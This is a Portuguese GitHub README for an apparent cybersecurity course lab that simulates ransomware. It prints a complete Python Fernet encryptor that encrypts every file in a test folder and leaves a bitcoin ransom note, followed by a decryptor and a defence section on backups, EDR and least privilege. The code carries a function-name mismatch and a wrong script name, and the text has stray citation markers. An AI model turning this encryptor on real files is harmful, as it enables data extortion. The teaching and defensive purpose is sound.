





# Desafio de Cibersegurança: Ransomware e Keylogger

## Sobre o Projeto
Este projeto documenta a exploração e análise de vulnerabilidades relacionadas à segurança de endpoints, com foco na simulação do comportamento de **Ransomware** e **Keylogger** em um ambiente 100% controlado[cite: 1, 3]. [cite_start]O objetivo é demonstrar como essas ameaças digitais funcionam, como capturam ou sequestram dados, e, principalmente, como podemos **detectar, mitigar e nos proteger** delas no mundo real[cite: 1, 4].

---

## Ambiente e Ferramentas
* **Linguagem:** Python 3 (para os scripts de simulação)
* **Ambiente:** Máquina virtual Linux (Kali Linux)
* **Ferramentas Simuladas:** Ransomware (criptografia/descriptografia) e Keylogger (captura de teclado e exfiltração) [cite: 1]
* **Entrega:** Repositório público no GitHub com arquivo `README.md` detalhado e pasta `/Images` [cite: 2]

## Cenário 1: Ransomware (Criptografia de Arquivos)
Este cenário simula o comportamento de um ransomware real, gerando uma chave de criptografia, localizando arquivos de teste (test_files) e os criptografando, deixando para trás uma mensagem de resgate.

### Estrutura do Projeto (Antes da Execução)
Para rodar o script, o ambiente foi organizado da seguinte forma:

/MALWARE
- └── **ransomware.py** # Script principal.
- └── **test_files/** # Pasta com arquivos para o teste.
  - ├── dados_confidenciais
  - └── senhas.txt
    
### Código de Execução (ransomware.py)
A seguir está o código Python utilizado. A função main orquestra a geração da chave, a criptografia dos arquivos na pasta test_files e a criação da mensagem de resgate.

```bash
import os
from cryptography.fernet import Fernet

# 1. Gerar uma chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

# 2. Carregar a chave salva
def carregar_chave():
    return open("chave.key", "rb").read()

# 3. Criptografar um único arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_criptografados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_criptografados)

# 4. Descriptografar um único arquivo (A "Solução" ou "Chave de Resgate")
def descriptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados_criptografados = file.read()
    dados_decriptografados = f.decrypt(dados_criptografados)
    with open(arquivo, "wb") as file:
        file.write(dados_decriptografados)

# 5. Encontrar arquivos para criptografar/descriptografar
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

# 6. Mensagem de resgate
def criar_mensagem_restage():
    with open("LEIA ISSO.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envie 1 bitcoin para o endereço X e envie o comprovante!\n")
        f.write("Depois disso, enviaremos a chave para você recuperar seus dados!\n")

# 7. Execução principal (Ataque)
def main():
    print("[+] INICIANDO ATAQUE...")
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files") 
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("[+] Ransomware executado com sucesso! Arquivos criptografados!")
    print("[+] Mensagem de resgate criada: LEIA ISSO.txt")

if __name__ == "__main__":
    main()
```
### Execução e Evidências
Comando de Execução:

```bash
python ransomware.py
```
Log de Saída Esperado:
```text
Ransomware executado! Arquivos criptografados!
```
Evidência Visual:

Antes da execução do ransomware:



depois da execução do ransomware:



## Descriptografia de arquivos

### Solução e Reversão do Ataque (Descriptografia)
Para provar que o ataque é reversível e para demonstrar o controle completo sobre o vetor de ameaça, a chave (chave.key) gerada pelo script de Ransomware é usada no processo de descriptografia.

### Script de Descriptografia (descriptografador.py)
A função principal do script de solução é reverter a criptografia. Ele carrega a mesma chave gerada, encontra os arquivos afetados e aplica a função f.decrypt() para restaurar os dados originais.

```bash
from cryptography.fernet import Fernet
import os

def carregar_chave():
    return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_descriptografados = f.decrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

def main():
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso")

if __name__== "__main__":
    main()
```
### Execução e Evidências
Comando de Execução:

```bash
python descriptografar.py
```
Log de Saída Esperado:
```text
Arquivos restaurados com sucesso
```

Evidência Visual:

Depois da execução do código:



## Reflexão e Estratégias de Defesa (Ransomware)

O ataque de Ransomware demonstrou a simplicidade com que dados podem ser sequestrados usando bibliotecas de criptografia padrão e acessíveis como o Fernet em Python. A defesa contra essa ameaça deve ser implementada em múltiplas camadas, visando prevenção, detecção de comportamento e recuperação.

1. Análise da Vulnerabilidade e Pontos de Entrada
O sucesso do ransomware dependeu de três fatores principais:
- Vetor de Execução: O script precisa ser executado (geralmente por meio de phishing, anexos de e-mail maliciosos ou downloads disfarçados). Isso explora a brecha humana e a falha do usuário em validar a origem do arquivo.
- Controle de Execução: A máquina host (Kali) permitiu que o script Python fosse executado sem ser bloqueado por soluções antivírus (que podem não reconhecer a "assinatura" do script, mas apenas o seu comportamento).
- Acesso a Arquivos: O processo conseguiu acesso de leitura/escrita aos arquivos na pasta test_files sem restrições.

2. Estratégias de Mitigação e Defesa (Blue Team)
As defesas contra Ransomware devem cobrir o ciclo de vida completo da infecção:
A. Recuperação (Última Linha de Defesa)
- Backup Imediato (Regra 3-2-1): A defesa mais crucial. Manter 3 cópias dos dados, em 2 mídias diferentes, sendo 1 cópia offline (fora do local ou na nuvem com controle de versão rigoroso). Se você tem um backup recente e offline, o pagamento do resgate é desnecessário.
- Controle de Versão: Usar sistemas que mantêm histórico de arquivos (como Shadow Copies no Windows ou versionamento em serviços de nuvem) para reverter o arquivo para um estado anterior à criptografia.

B. Detecção e Resposta (Fase Ativa)
- Endpoint Detection and Response (EDR): Utilizar soluções que não dependem da assinatura do arquivo, mas sim do comportamento. Um EDR detecta e interrompe o processo que está tentando criptografar arquivos em massa rapidamente, isolando o host infectado.
- Análise Heurística: Configurar ferramentas antivírus e de segurança para sinalizar scripts ou executáveis que tentam ler e escrever um grande número de arquivos em rápida sucessão, o que é um comportamento típico de ransomware.

C. Prevenção (Fase Passiva)
- Princípio do Mínimo Privilégio: Limitar rigorosamente o acesso do usuário a pastas e arquivos que ele não precisa para o trabalho diário. Se o script for executado por um usuário com privilégios limitados, o dano será contido.
- Conscientização do Usuário: Treinamento contínuo contra ataques de phishing, spear-phishing e engenharia social. A educação é a maneira mais eficaz de impedir que o vetor de execução inicial (o clique) ocorra.
- Application Whitelisting: Usar políticas que permitem a execução de apenas aplicativos e scripts conhecidos e confiáveis, bloqueando qualquer código não autorizado (incluindo o ransomware.py).
